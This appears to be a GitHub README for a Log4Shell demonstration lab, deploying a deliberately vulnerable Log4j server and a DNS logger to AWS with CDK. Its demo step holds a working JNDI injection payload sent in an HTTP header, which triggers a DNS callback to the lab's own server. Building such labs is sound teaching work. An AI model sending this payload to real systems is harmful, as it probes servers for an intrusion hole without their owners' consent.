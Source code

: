 # Log4Shell Demo

Demonstration of [Log4Shell](https://en.wikipedia.org/wiki/Log4Shell) vulnerability.

## Deploy

Stack name is **Log4ShellStack**. It will be deployed to the default account and region configured in `~/.aws/config`. Refer to CDK [installation guide](https://docs.aws.amazon.com/cdk/v2/guide/getting_started.html#getting_started_prerequisites).

Before deploying this stack, create/upload an SSH keypair or specify your existing one. Inbound connection to deployed instances is limited to your public IP, `curl -s http://portquiz.net | grep 'IP' | cut -d' ' -f3` to see your IP.

```
# Create venv
python -m venv .venv
source .venv/bin/activate

# Install CDK libraries
pip install -r requirements.txt -q

# Generate CloudFormation template
mkdir -p cdk.out
cdk synth -c key_name=ssh-keypair-name -c ip=your-public-ip > cdk.out/template.yml

# Review cdk.out/template.yml

# Deploy
cdk deploy -c key_name=ssh-keypair-name -c ip=your-public-ip -v
```

## Demo

1. Note down the public IP of Log4ShellLog4JInstance and private IP of Log4ShellDNSInstance.
2. Remote into Log4ShellDNSInstance using Session Manager or SSH. In that instance, run `journalctl -xe -u unbound -f`
3. In your local machine, `curl -L http://log4j-public-ip -H 'X-Api-Version: ${jndi:dns://dns-private-ip/evil-request}'`

   - The response will be `Hello, world!`.

4. Back in Log4ShellDNSInstance, it should show this log message,

   - `# Jan 1 01:23:45 ip-a-b-c-d unbound[pid]: [pid:0] info: log4j-private-ip evil-request. A IN`

This demonstrate the ability to instruct a vulnerable server to make an arbitrary DNS request.

## Credit

[christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)
